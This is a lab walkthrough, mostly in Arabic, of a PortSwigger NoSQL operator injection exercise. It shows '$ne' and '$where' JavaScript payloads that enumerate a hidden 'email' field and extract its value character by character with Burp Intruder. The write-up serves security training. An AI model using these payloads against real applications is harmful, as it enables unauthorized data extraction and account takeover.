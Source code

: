 ## Welcome My friends , Today we will attack this [Lab: Exploiting NoSQL operator injection to extract unknown fields](https://portswigger.net/web-security/learning-paths/nosql-injection/exploiting-nosql-operator-injection-to-extract-data/nosql-injection/lab-nosql-injection-extract-unknown-fields#)


### السلام عليكم ورحمة الله وبركاته ... اهلا وسهلا بك يا صديقي سوف نقوم بشرح تلك الغرفة باللغة العربية ويمكن تكون الغرفة الوحيدة التي سيتم شرحها باللغة العربية.

#### دعنا نبدا في اللاب والسيناريو اعطانا اسم مستخدم وهو carlos ويطلب مننا نقوم بالدخول على حساب تلك الهدف 


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/650b017b-7441-4db8-ae63-7a62a18968cc)


#### في الحقيقة تلك الغرفة مليئة بالمعلومات فركز معنا يا صديقي :) لنبدأ على بركة الله...

### الان سوف نذهب لنعترض صحفة تسجيل الدخول ونقوم بحقنه باكواد ضارة 

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/80a3e5b8-897e-499f-91d1-0ef80d7ff35b)


#### نحن لا نعرف كلمة المرور في تلك الغرفة نحن لا نبحث عن تلك المرور بل نبحث عن حقول مخفية مثل username و password وليكن email حقل مخفي ونبحث لو كانت تلك الحقول تمتلك بيانات يمكنها مساعدتنا مثل token 

### الان سوف نحاول مع تلك الحمولة ونرى ماذا سينتج من خلاله :



```
{"username":"carlos","password":{"$ne":"hi"}}
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/7d001e29-53cf-4921-8a5b-daff4195bef5)

#### لاحظ يا صديقي هنا لقد نجح الحمولة والدليل على ذلك ظهور رسالة مختلفة ```Account locked``` هنا نفهم 
#### الحمولة صحيحة تظهر رسالة ``` Account locked``` واذا كانت الحمولة غير صحيحة تظهر رسالة ```invalid username or password```
    

##### اذا نريد نتاكد اكثر نستخدم تلك الحمولات القادمة
```
,"$where": "0"
```

or 

```
,"$where":"function(){return 0;}"
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/d8cca859-dff8-4ba4-bebb-95c206a838da)

##### 0 يعني غلط و 1 يعني صح



```
,"$where": "1"
```

or 

```
,"$where":"function(){return 1;}"
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/db532663-d40a-4c8e-91c7-361f6b237b60)


##### غيرناها ل 1 ظهرت لنا رسالة تخبرنا انها صحيحة

### والان نتاكد من الحقول التي لدينا وايضا نحاول اكتشاف الحقول المخفية
#### الحقول التي نعرفها هم ```username,password,_id```

```
,"$where":"function(){ if(Object.keys(this)[2].match('password')) return 1; else 0;}"
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/c15d7999-8b5f-4417-9072-b2c138992d4b)

##### هنا نعرف ان الحقل الثالث هو password 
##### هي نختبر عدد الحقول المخفية

```
,"$where":"function(){ if(Object.keys(this)[3].match('password')) return 1; else 0;}"
```

![Screenshot from 2024-07-11 05-05-15](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4df37290-1ee3-47ba-9b3d-e4112273587f)


##### لدينا حقل مخفي ترتيبه الرابع لنعيد نفس الحمولة مره اخرى ونغير الرقم ل 4 ونرى النتيجة 


```
,"$where":"function(){ if(Object.keys(this)[4].match('password')) return 1; else 0;}"
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/831b1212-209c-47a8-9aca-b74643dde653)

##### والان لا يوجد حقل اخر 
##### نحن نريد نعرف شيئين الاول ما هو اسم الحقل الرابع ؟ وما هو القيمة التي بداخله؟

### الاول دعنا نبحث عن اسم الحقل الرابع المخفي:

##### نريد نعرف كم عدد حروف الاسم ثانيا نبدا نخمن الحروف لنبدا بتخمين عدد الحروف


```
,"$where":"function(){ if(Object.keys(this)[3].length==1) return 1; else 0;}"
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/137af26f-5c42-4772-bd90-382f8831724f)

##### لم تكن عدد الحروف حرف واحد والان سيصبح الامر مملا اذا كنا نخمن رقم ثم رقم دعنا نستخدم ```intruder``` :


```
,"$where":"function(){ if(Object.keys(this)[3].length==5) return 1; else 0;}"
```

[Screencast from 2024-07-11 05:13:47 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/9cccb2fb-4486-4e7e-bd4a-7d88b25cc7ba)



##### والان عرفنا ان عدد الحروف هو ```5``` حروف 

### والان نريد نخمن الحروف الخمس سنستخدم تلك الحمولة


```
,"$where":"function(){ if(Object.keys(this)[3].match(/^a/)) return 1; else 0;}"
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6be352ab-2595-4160-830a-59547a3e5912)

##### لم تكن اول حرف a والان سيصبح الامر مملا اذا كنا نخمن حرف ثم حرف دعنا نستخدم ```intruder``` :


[Screencast from 2024-07-11 05:24:26 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/e31b85a7-c120-429b-ab8a-b0e62791557b)

#### Hidden Field is email.

##### والان نريد قيمة email سوف نستخدم تلك الحمولات التي استخدمناهم من قبل الحمولة الاولى لكي نعرف عدد حروف القيمة والثاني لكي نخمن تلك الحروف

```
,"$where":"function(){ if(this.email.length == 1) return 1; else 0;}"
```



[Screencast from 2024-07-11 05:34:04 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/c5fb9a34-2d0e-4d26-b6a0-80efc02eeddf)

#### Length is 25

#### والان سوف نخمن تلك الحروف ال 25 حرف

```
,"$where":"function(){ if(this.email.match(/^a/)) return 1; else 0;}"
```

#### Email is carlos@carlos-montoya.net











































































































